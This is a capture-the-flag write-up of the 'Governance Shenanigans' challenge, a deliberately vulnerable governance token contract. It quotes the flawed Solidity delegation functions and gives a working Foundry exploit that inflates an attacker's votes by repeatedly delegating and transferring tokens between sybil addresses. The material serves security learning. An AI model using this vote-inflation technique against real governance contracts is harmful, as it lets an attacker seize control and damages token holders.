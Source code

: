 ```yaml
---
title: "Mr Steal Yo Crypto — Governance Shenanigans"
date: 2023-07-22
draft: false
description: "CTF - 10"
tags: ["CTF"]
series: ["CTF"]
series_order: 10
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #10 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real world exploits.
> Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement)

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Governance Shenanigans

The NotSushiToken governance token contract has been launched, which was configured to determine who should be named the best sushi chef. Who wouldn’t want that clout?

It only allows WLed addresses to vote. Luckily your sybil attack has yielded you 3 WLed addresses capable of voting.

Your goal is to get the most delegated votes and crown yourself the true sushi king. You start with 500 tokens, your competition has 2,000.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/governance-shenanigans)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/10-governance-shenanigans.sol)

### Review of the contract

#### NotSushiToken.sol

The only things that look strange are the logic of `_delegate()` and `_moveDelegates()`. Even if the amount is equal to 0, we update `_delegates[delegator]`.

```solidity
// @dev assigns the entire balance of votes from old delegatee to new delegatee
function _delegate(address delegator, address delegatee) internal {
    address currentDelegate = _delegates[delegator];
    uint256 delegatorBalance = balanceOf(delegator); // balance of underlying SUSHIs (not scaled);

    _delegates[delegator] = delegatee;

    emit DelegateChanged(delegator, currentDelegate, delegatee);

    _moveDelegates(currentDelegate, delegatee, delegatorBalance);
}

// @dev votes are transferred from delegatee `srcRep` to `dstRep`
function _moveDelegates(address srcRep, address dstRep, uint256 amount) internal {
    if (srcRep != dstRep && amount > 0) {
        if (srcRep != address(0)) {
            // decrease old representative
            uint32 srcRepNum = numCheckpoints[srcRep];
            uint256 srcRepOld = srcRepNum > 0 ? checkpoints[srcRep][srcRepNum - 1].votes : 0;
            uint256 srcRepNew = srcRepOld.sub(amount);
            _writeCheckpoint(srcRep, srcRepNum, srcRepOld, srcRepNew);
        }

        if (dstRep != address(0)) {
            // increase new representative
            uint32 dstRepNum = numCheckpoints[dstRep];
            uint256 dstRepOld = dstRepNum > 0 ? checkpoints[dstRep][dstRepNum - 1].votes : 0;
            uint256 dstRepNew = dstRepOld.add(amount);
            _writeCheckpoint(dstRep, dstRepNum, dstRepOld, dstRepNew);
        }
    }
}
```

I think we can directly go to the next part; the vulnerability is between these two functions.

### Exploit the vulnerability

The vulnerability is a missing update in the variables within the logic of `_delegate()` and `_moveDelegate()`. Consider this scenario:

1. The first time we call `_delegate()`, `currentDelegate` is equal to 0, and `srcRep` of `_moveDelegates` is `srcRep = address(0)`. We will increase the vote of the `dstRep` and not decrease the `srcRep` in our first call. We can delegate vote to a user the first time with `amount = balanceOf() → 500`.

2. Then we will reset `_delegates[delegator]` (=`srcRep`) to `address(0)` by `delegate()` with `amount` equal to 0. We just need to transfer our token to have `amount = 0`. So if we call `delegate()` again, `currentDelegate` is equal to the user. We will do nothing inside `_moveDelegate()` because `amount = 0`. So the user still has 500 units of vote, and our `currentDelegate` is now equal to `address(0)`.

If we do that within a loop, we are artificially increasing the vote of a user.

Here is a solution:

```solidity
// solves the challenge

function testChallengeExploit() public {
    // for this exploit, you can use vm.prank(..) w/ {attacker,o1,o2}
    // implement solution here
    // In this challenge, we have a problem in the logic of _delegate() and _moveDelegate()
    // If the srcRep = address(0) then we will increase the vote of the dstRep and not decrease the srcRep
    // So there is a possibility to delegate vote to a user the first time with amount = balanceOf() → 500
    // begin: _delegates[delegator](=srcRep) = address(0) | dstRep = user
    // end: _delegates[delegator](=srcRep) = user | vote[user] = amount
    // Then I will reset _delegates[delegator](=srcRep) to address(0) by delegate() with amount equal to 0
    // We just need to transfer our token to have amount = 0
    // So if we call again delegate:
    // begin: _delegates[delegator](=srcRep) = address(user) | dstRep = address(0)
    // end: _delegates[delegator](=srcRep) = address(0) | vote[user] = vote[user] - amount but amount = 0
    // And so we can do that with a loop and artificially increasing the vote of a user.

    vm.startPrank(attacker);
    governanceToken.transfer(o1, governanceToken.balanceOf(attacker));
    console.log("balance of attacker : ", governanceToken.balanceOf(attacker));
    console.log("vote for attacker : ", governanceToken.getCurrentVotes(attacker));
    vm.stopPrank();

    for (uint i; i < 3; ++i) {
        vm.startPrank(o1);
        console.log("balance of o1 : ", governanceToken.balanceOf(o1));
        governanceToken.delegate(attacker); // delegate 500 of vote to attacker
        governanceToken.transfer(o2, governanceToken.balanceOf(o1));
        console.log("balance of o1 : ", governanceToken.balanceOf(o

1));
        governanceToken.delegate(address(0)); // delegate 0 of vote to address(0) and so at the end srcRep = address(0))
        console.log("vote for attacker : ", governanceToken.getCurrentVotes(attacker));
        vm.stopPrank();

        vm.startPrank(o2);
        console.log("balance of o2 : ", governanceToken.balanceOf(o2));
        governanceToken.delegate(attacker); // delegate 500 of vote to attacker
        governanceToken.transfer(o1, governanceToken.balanceOf(o2));
        console.log("balance of o2 : ", governanceToken.balanceOf(o2));
        governanceToken.delegate(address(0)); // delegate 0 of vote to address(0) and so at the end srcRep = address(0))
        console.log("vote for attacker : ", governanceToken.getCurrentVotes(attacker));
        vm.stopPrank();
    }

    vm.startPrank(o1);
    governanceToken.transfer(attacker, governanceToken.balanceOf(o1));
    vm.stopPrank();

    validation();
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/10-governance-shenanigans.sol).

### Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me for writing articles on CTF ^^.